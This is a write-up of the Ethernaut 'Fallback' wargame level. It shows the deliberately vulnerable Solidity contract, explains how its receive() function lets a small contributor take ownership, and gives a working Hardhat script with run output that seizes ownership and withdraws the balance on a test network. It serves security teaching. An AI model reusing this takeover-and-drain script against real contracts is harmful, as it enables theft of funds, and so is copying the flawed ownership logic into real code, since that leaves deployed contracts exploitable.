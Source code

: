 ```yaml
---
title: Ethernaut Fallback
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Fallback challenge writeup
---
```


## Fallback

### Challenge

Look carefully at the contract's code below.

You will beat this level if

    you claim ownership of the contract
    you reduce its balance to 0

  Things that might help

    How to send ether when interacting with an ABI
    How to send ether outside of the ABI
    Converting to and from wei/ether units (see help() command)
    Fallback methods


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

### Background

The `fallback` function is a function that is called when the function identifier does not match any of the contract functions or if a function call is invoked without any data (hence no function identifier is provided). Since Solidity 0.6.0 a the function `receive` was introduced. `receive` works the same way as fallback but is called when the invocation has a value (funds).

### Attack

Solving this is pretty straight forward. The whole challenge just seems to be around understanding how to invoke the `fallback` functionality (more specifically the `receive` functionality).

* In order to call the `withdraw` function one needs to be the owner.
* If the `fallback` function is called with some value and the `msg.sender` already has contributed some funds, the owner is changed to the `msg.sender`. So the 
* One can call `contribute` with less than `0.001 ETH` and place some contribution.

So the attack would look something like this

* call `contribute` with less than `0.001 ETH`
* call `fallback` with some value
* call `withdraw`

#### fallback-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    // get contract
    fallbackAddress = "0x253Acf9cFeB752D9A1ce78b808b292E4D91C2c46";
    contract = await ethers.getContractAt("Fallback", fallbackAddress);

    // get account
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    // initial state
    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))

    // make small contribution
    tx = await contract.connect(account).contribute({ value: ethers.utils.parseEther("0.001") - 1 })
    receipt = await tx.wait()

    // call fallback function and become owner
    tx = await account.sendTransaction({
        to: contract.address,
        data: "0x",
        value: ethers.utils.parseEther("0.001")
    });
    receipt = await tx.wait()

    // withdraw contract funds
    tx = await contract.connect(account).withdraw()
    receipt = await tx.wait()

    // final state
    console.log("Contract Owner  : " + await contract.owner())
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/fallback-solve.js --network rinkeby
Level address   : 0x253Acf9cFeB752D9A1ce78b808b292E4D91C2c46
Contract Owner  : 0x9CB391dbcD447E645D6Cb55dE6ca23164130D008
Contract Balance: 0
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Contract Balance: 0
```

### Success Message

You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learnt about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.

Move on to the next level when you're ready!
